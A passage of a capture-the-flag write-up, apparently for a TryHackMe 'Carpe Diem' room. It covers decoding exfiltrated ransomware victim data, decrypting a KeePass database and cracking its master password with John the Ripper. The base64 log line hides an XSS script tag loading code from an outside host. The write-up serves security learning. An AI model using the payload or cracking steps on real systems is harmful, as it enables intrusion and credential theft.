I5bFQyaFBiV2hmYUhKU1JIQnpNV0pxVVZsSVlVRk9Ra05IVVdSU1pnPT0iLCJuYW1lIjoiMTkyLjE2OC42Ni4xMTEiLCJ0aW1lciI6IjIwMjAtMDQtMTVUMjA6NTY6MzMuOTExMTQzIn0sIHsiZmlsZW5hbWUiOiJwYXBlcnNpemUuY2xpcCIsImlkIjo3Miwia2V5IjoiUjI0eFIxaDRhR0UyYUVKUlZFaFdSSHBVZEhWRFUxQkNMaTVWZFV4UVFtNUpaMlpIUTBVMmIwdEpaemhHY2xoWlRHNTNlREUzVTFFeWEyVkthakJqTUE9PSIsIm5hbWUiOiIxOTIuMTY4LjY2LjE4OCIsInRpbWVyIjoiMjAyMC0wNC0xNVQyMDo1NzoyNi4zNDgxMDEifSwgeyJmaWxlbmFtZSI6InNtYWxsX3N0ZXBzLnJ0ZiIsImlkIjo3Mywia2V5IjoiZHpBd05rMW1SMEV3WTBsb2EyRlVhVmt1Y2tneU1VeE9iVlJPTkZkeldrdHdjRGs0ZFZaTWMxTTNaemxtVUdNemFYUklTa3R3WjFSTFlVcHVaVmRFZGc9PSIsIm5hbWUiOiIxOTIuMTY4LjAuMTIiLCJ0aW1lciI6IjIwMjAtMDQtMTVUMjA6NTc6NDEuMzIxMDk3In0sIHsiZmlsZW5hbWUiOiJwYXBlcnNpemUuY2xpcCIsImlkIjo4NCwia2V5IjoiT0RCMlMwbDNPSHBoTlhKMFpscHhObkZUV2xOb1ozRm5jRUZOZGtvNGVXUlJWbFV5WVdsVGFXOXNiMDVmVm01R2VUQlJORFZ2UzA4NVFuRk5kMmRyUXc9PSIsIm5hbWUiOiIxOTIuMTY4LjE2LjUzIiwidGltZXIiOiIyMDIwLTA0LTE2VDEyOjQ0OjM4LjY0NzA2OSJ9LCB7ImZpbGVuYW1lIjoibXlfa2V5cy54bHMiLCJpZCI6NzYsImtleSI6ImRuWXpjV0pLY25rMWFWRlVRbWQyWjBoNVFVUnlVa3B1U0Vwak9GVlRPQzVyVlRFMU1TNWpaMmxhWms5WWIyMUphSGwyVmtaM1JVOU5RMk5YYW1WTFFRPT0iLCJuYW1lIjoiMTkyLjE2OC4xNi42NSIsInRpbWVyIjoiMjAyMC0wNC0xNlQwNjo0MzoyNy41NDIzNjQifSwgeyJmaWxlbmFtZSI6IllvdXJfc2hhZG93LmRvY3giLCJpZCI6NzcsImtleSI6ImRrbFROM1ZMWm1kMVZXRkRhVlpXZURsTFdFdHpkMGd3Y1ZnMlRVVk1jbU5WYWsxMGJHRlFkRFpZWjI5SE1YVmZjaTVEYkhSd2JrTlJWMHM1ZEdWS1RnPT0iLCJuYW1lIjoiMTAuMjEyLjEzNC4yMDAiLCJ0aW1lciI6IjIwMjAtMDQtMTZUMDc6MTc6MDAuNzk3OTY2In0sIHsiZmlsZW5hbWUiOiJOb19zZWNyZXRzX2hlcmUudHh0IiwiaWQiOjc4LCJrZXkiOiJUVGd3ZWtwZlF5NURiRFoxY2tGalVFUm1SRlJTVWxKRWVUZGhkRTEwWjNrMGNXWkplSE5EYmpoVldISllOV2xmTGtOMVdEUlVha3hFZWxKM2VuTjRWZz09IiwibmFtZSI6IjEwLjIxMi4xMzQuMjAwIiwidGltZXIiOiIyMDIwLTA0LTE2VDA3OjE3OjAwLjgwNTIxOSJ9LCB7ImZpbGVuYW1lIjoibGQuc28uY2FjaGUiLCJpZCI6ODYsImtleSI6IlFUUldNM1JRTXpaNFVVSkphMHc0VGt0VVNXUXlRV1p6U3pocVNYQXlNVUpNTVd4RE1HdEZkM2h6VURCNVJHeGljVVZqZEZJeFNuZFdaVkpPZWpOeFN3PT0iLCJuYW1lIjoiMTAuOS4xMjMuMjI2IiwidGltZXIiOiIyMDIwLTA5LTI1VDA5OjAwOjI1LjUxMDI5In0sIHsiZmlsZW5hbWUiOiJsb2NhbGUuYWxpYXMiLCJpZCI6ODcsImtleSI6IlNIVkhORUZFUWxoS1kyNHdVSEJ4YnpSeE5YaEdabk5pWm1GeWNHbExOelJTYzJ0clYxWnpMa1JZVVVWemFUaG9ZM1pCVjNaSE5IaGtjblJ2V1V0Qlp3PT0iLCJuYW1lIjoiMTAuOS4xMjMuMjI2IiwidGltZXIiOiIyMDIwLTA5LTI1VDA5OjAwOjI1LjUxNjExIn0sIHsiZmlsZW5hbWUiOiJtYWNoaW5lLWlkIiwiaWQiOjg4LCJrZXkiOiJTek00TVhVeU5tUm5iWEpuT1hGdVlXSjJYMmRDY1ZKUVJVUlhZV1ZhTTI1RllXNUtUV3hMWWtzMFkzaGhlSFZLVFdaMlJXeEZSVjlwVUhkUGJHcDZVQT09IiwibmFtZSI6IjxzY3JpcHQgc3JjPSdodHRwOi8vMTAuOS4xMjMuMjI2OjgwMDAvei5qcyc+PC9zY3JpcHQ+IiwidGltZXIiOiIyMDIwLTA5LTI1VDA5OjAwOjQyLjA2NDY4MSJ9XX19 HTTP/1.1" 200 -
```

Decoding the result, gave us a fairly big list of files and keys.

```json
{
    "data": {
        "victims": [{
            "filename": "miredo.conf",
            "id": 69,
            "key": "RW1Ed3ZNV09aeWFjOTdxM1B0OFQzTkNFY0JDbDNKenA1a1FfVFBfWXZ6ZVN5MnAuTkpJV1NUanRsZ0lWQVZWUg==",
            "name": "192.168.66.12",
            "timer": "2020-04-15T20:56:13.203303"
        }, {
            "filename": "fuse.conf",
            "id": 71,
            "key": "OHphWi50Umt5SEVBNGhYemlxM3hzOFZCWTN3YzFjWFVVMkQ2Z3d0NEcxRFJ6cGJWbGZYY3FSMUpLREpEYXRrdw==",
            "name": "192.168.66.200",
            "timer": "2020-04-15T20:57:00.398945"
        }, {
            "filename": "Photos.zip",
            "id": 49,
            "key": "22iAgaC6Z8BT4+YhiCBWuOLXWuc+JKmKf6XZynuCfTKD7kXuz9/mHeDE8Vvlk4Dtu0kSMHxnQ3VaUD72GzG4UA==",
            "name": "77.154.250.54",
            "timer": "2020-03-19T11:29:48.523753"
        }, {
            "filename": "Transfers.csv",
            "id": 42,
            "key": "w68C7PrR4HkCLWYpbH5tUPh4Uh3og91QUtzWD2SmnJeNGIDZZ7Lbesp6Aa9cx36vqsICnfCYT0H6Ff6SmOaI6Q==",
            "name": "192.168.66.134",
            "timer": "2019-04-09T10:50:37.585655"
        }, {
            "filename": "BTC-Wallet.tar",
            "id": 50,
            "key": "1AcXybheh5579DlQmcQq4Awlv1Qs6uZXzM+ke3po6zgz6C294iT6YJgMz9n7myd2Vf6KxS+yuZziPcICLXe75g==",
            "name": "45.35.25.4",
            "timer": "2020-04-12T14:30:18.766926"
        }, {
        ...
        ...
        ...
        }]
    }
}
```

After a while i realized that the key value, is the key to decrypt the **Database.carp** simple, given in the description.

```json
{                                                                                                                                                             
    "filename": "Database.kbxd",
    "id": 48,
    "key": "F+l********************************************************************************8Tg==",
    "name": "195.204.178.84",
    "timer": "2020-04-15T14:29:24.383136"
}
```


now we can decrypt the file, We only have a little Problem, we dont know what syntax to use, but we know that we need 4 arguments, and those arguments probably are:

```
os_Args[1] = decrypt_linux_amd64 // the main file
os_Args[?] = Database.carp
os_Args[?] = Database.kbxd
os_Args[?] = F+l********************************************************************************8Tg==
```

i wrote a quick python script to give me all the posibilities.

```python
#!/usr/bin/python3
# get all possible combinatins from a set of arguments
from itertools import permutations
import sys
import os

ports_list = sys.argv[1:]
perm = permutations(ports_list)

for i in list(perm):
	u = os.popen("echo './decrypt_linux_amd64 %s'|tr -d '('|tr -d ')'|tr -d ','" % str(i)).read()
	print(u.strip('\n'))
```

run it, and i got 6 possibilities.

```
m3dsec@local:~/carpe_diem.thm/files$ python3 permutation.py 'Database.carp' 'Database.kbxd' 'F+l********************************************************************************8Tg=='|tee commends_set.txt
./decrypt_linux_amd64 Database.carp Database.kbxd F+l********************************************************************************8Tg==
./decrypt_linux_amd64 Database.carp F+l********************************************************************************8Tg== Database.kbxd
./decrypt_linux_amd64 Database.kbxd Database.carp F+l********************************************************************************8Tg==
./decrypt_linux_amd64 Database.kbxd F+l********************************************************************************8Tg== Database.carp
./decrypt_linux_amd64 F+l********************************************************************************8Tg== Database.carp Database.kbxd
./decrypt_linux_amd64 F+l********************************************************************************8Tg== Database.kbxd Database.carp
```

one of those possibilities should give us something.

```
m3dsec@local:~/carpe_diem.thm/files/test$ cat commends_set.txt |while read i;do $i;ls -lat |grep '.kbxd';done
Key decode error: illegal base64 data at input byte 8
---x--x--- 1 m3dsec m3dsec    2174 Sep 25 20:47 Database.kbxd.decrypt
---x--x--- 1 m3dsec m3dsec    2174 Sep 25 20:47 Database.kbxd.decrypt
```

And We got a new file called **Database.kbxd.decrypt**, inspecting that file:

```
m3dsec@local:~/carpe_diem.thm/files$ file Database.kbxd.decrypt
Database.kbxd.decrypt: Keepass password database 2.x KDBX
```

As we can see its a Keepass password database, and require a Master Password, my first attempt to crack that password with [JohnTheRipper](https://www.openwall.com/john/) was successful.

<br>

**Cracking The KeePass Master password**

with keepass2john we can processes input KeePass 1.x and 2.x database files into a format suitable for use with JohnTheRipper.

```
m3dsec@local:~/carpe_diem.thm/files$ sudo keepass2john Database.kbxd.decrypt > Database.kbxd.hash
```

Then we can Start brute forcing the master password.
```
m3dsec@local:~/carpe_diem.thm/files$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt Database.kbxd.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
an*******        (Database.kbxd.decrypt)
1g 0:00:00:21 DONE (2020-09-25 16:02) 0.04623g/s 174.5p/s 174.5c/s 174.5C/s tyson1..happydays
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

open the file with [KeePass2 password manager](https://sourceforge.net/p/keepass/discussion/329220/thread/17d1bd26/), and supply the master password.




Within the database, we can copy the THM password, which is the second flag.



second Flag : THM{You_*******************Done!}

<br>


<h2 id="Conclusion">Conclusion</h2>

As much as i didn't like the fact that we had no access to the internal network of this machine, i just loved it, it forced me to learn new things, and think outside the box.
and i think [4ndr34zz](https://twitter.com/4nqr34z) is planning for the second part, where we're gonna enjoy all that internal Pivoting and Lateral Movement actions.

Best Regards

[m3dsec](https://twitter.com/m3dsec).

<br>

<h2 id="Some-Resources">Some Resources</h2>

- [https://labs.f-secure.com/blog/getting-real-with-xss](https://labs.f-secure.com/blog/getting-real-with-xss/)
- [https://github.com/okeeffed/cheat-sheets/blob/master/js-cheat-sheet.md#local-storage](https://github.com/okeeffed/cheat-sheets/blob/master/js-cheat-sheet.md#local-storage)
- [https://stackoverflow.com/questions/5612787/converting-an-object-to-a-string](https://stackoverflow.com/questions/5612787/converting-an-object-to-a-string)
- [https://stackoverflow.com/questions/57721150/how-to-fetch-from-graphql-server-using-xmlhttprequest](https://stackoverflow.com/questions/57721150/how-to-fetch-from-graphql-server-using-xmlhttprequest)
- [https://medium.com/@seanchatman/basic-graphql-with-vue-and-plain-javascript-f4ec2127e1f0](https://medium.com/@seanchatman/basic-graphql-with-vue-and-plain-javascript-f4ec2127e1f0)
- [https://www.w3schools.com/js/js_ajax_http_response.asp](https://www.w3schools.com/js/js_ajax_http_response.asp)
- [https://www.w3schools.com/jsref/met_win_atob.asp](https://www.w3schools.com/jsref/met_win_atob.asp)

<br>
<br>

[back to main()](../../index.md)

<br>
